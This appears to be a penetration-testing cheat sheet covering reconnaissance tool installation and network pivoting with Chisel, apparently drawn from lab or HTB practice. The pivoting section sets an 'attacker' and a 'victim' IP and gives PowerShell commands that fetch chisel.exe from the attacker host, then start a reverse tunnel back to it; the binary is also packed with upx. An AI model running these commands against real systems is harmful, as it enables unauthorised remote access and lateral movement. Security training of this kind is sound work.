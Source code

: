 


## Discovery



### nmapAutomator

```
$ sudo apt install sslscan nikto joomscan wpscan smbmap enum4linux dnsrecon
$ sudo python3 -m pip install droopescan
$ sudo wget https://github.com/vulnersCom/nmap-vulners/raw/master/vulners.nse -O /usr/share/nmap/scripts/vulners.nse && nmap --script-updatedb
$ git clone https://github.com/21y4d/nmapAutomator ~/tools/nmapAutomator
$ sudo ln -s ~/tools/nmapAutomator/nmapAutomator.sh /usr/local/bin/nmapAutomator.sh
```



### AutoRecon

```
$ sudo apt install seclists curl enum4linux gobuster nbtscan nikto nmap onesixtyone oscanner smbclient smbmap smtp-user-enum snmp sslscan sipvicious tnscmd10g whatweb wkhtmltopdf
$ sudo python3 -m pip install git+https://github.com/Tib3rius/AutoRecon.git
```




## Pivoting

* [PayloadsAllTheThings/Network Pivoting Techniques.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Network%20Pivoting%20Techniques.md)



### Chisel

1. [github.com/jpillora/chisel/releases](https://github.com/jpillora/chisel/releases)
2. [snovvcrash.github.io/2020/03/17/htb-reddish.html#chisel-socks](https://snovvcrash.github.io/2020/03/17/htb-reddish.html#chisel-socks)

* Attacker's IP: 10.10.13.37
* Victims's IP: 10.10.13.38

Reverse forward port 1111 from Windows machine to port 2222 on Linux machine:

```
root@kali:$ wget [1/linux]
root@kali:$ gunzip chisel*.gz && rm chisel*.gz && mv chisel* chisel && chmod +x chisel

root@kali:$ wget [1/windows]
root@kali:$ gunzip chisel*.exe.gz && rm chisel*.exe.gz && mv chisel*.exe chisel.exe && upx chisel.exe
root@kali:$ md5sum chisel.exe

root@kali:$ ./chisel server -p 8000 -v --reverse

PS > (new-object net.webclient).downloadfile("http://10.10.13.37/chisel.exe", "$env:userprofile\music\chisel.exe")
PS > get-filehash -alg md5 chisel.exe
PS > Start-Process -NoNewWindows chisel.exe client 10.10.13.37:8000 R:127.0.0.1:2222:127.0.0.1:1111
```


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 space before)